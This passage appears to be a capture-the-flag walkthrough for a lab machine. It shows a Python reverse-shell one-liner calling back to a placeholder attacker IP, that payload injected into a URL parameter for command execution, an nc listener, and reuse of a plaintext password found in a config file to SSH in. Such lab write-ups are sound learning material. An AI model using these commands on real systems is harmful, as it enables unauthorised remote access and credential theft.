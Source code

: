 Now that we've established a proof-of-concept that we can execute commands on the system, we can now try to get an initial foothold. We will need to execute a reverse shell using the POC above. To do so I used one of the reverse shell codes found on **0xdedinfosec's** walkthrough. 

> `python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("XX.XX.XX.XX",9001));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("sh")'`

Where you see `XX.XX.XX.XX` this will need to be changed to the attacker's IP address. This code utilizes python3 to call back to the attackers machine and make a shell for us to move around the file system with. So, the full query will look like this:

> http://10.10.XX.XX/?name=%20`python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.XX.XX",9001));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("sh")'`

After setting up a listener using `nc -lvnp 9001`, I execute the command and get a shell!

<p>
<img src="https://i.imgur.com/f4ueWbz.png" height="80%" width="80%" alt=""/>
</p>

I check `whoami` and get "ruby" back. I then use `/bin/bash -i` to stabilize the shell.

<p>
<img src="https://i.imgur.com/f4ueWbz.png" height="80%" width="80%" alt=""/>
</p>

<p>
<img src="https://i.imgur.com/1PvbaYG.png" height="80%" width="80%" alt=""/>
</p>

I have a look arond the file system. I go to the home directory of "ruby" trying to look for a clue but find nothing at this point. I remember that there's probably another user on this system so I check the `/home` directory and find `user.txt`. I try to read it but I get a permission denied. This means that I need to find a way to elevate my privileges.

<p>
<img src="https://i.imgur.com/E0qro7g.png" height="80%" width="80%" alt=""/>
</p>

I keep looking around the file system for a while. Eventually I return to "ruby's" home directory and start going through each hidden directory there. When I cat the `config` file of the `.bundle` directory we get this:

<p>
<img src="https://i.imgur.com/ulBtfDc.png" height="80%" width="80%" alt=""/>
</p>

It appears that henry's password is saved in plain text here or in some sort of encoding. I decide to try it out and ssh into the system as henry. And it works!!

<p>
<img src="https://i.imgur.com/Q7ZdJiX.png" height="80%" width="80%" alt=""/>
</p>
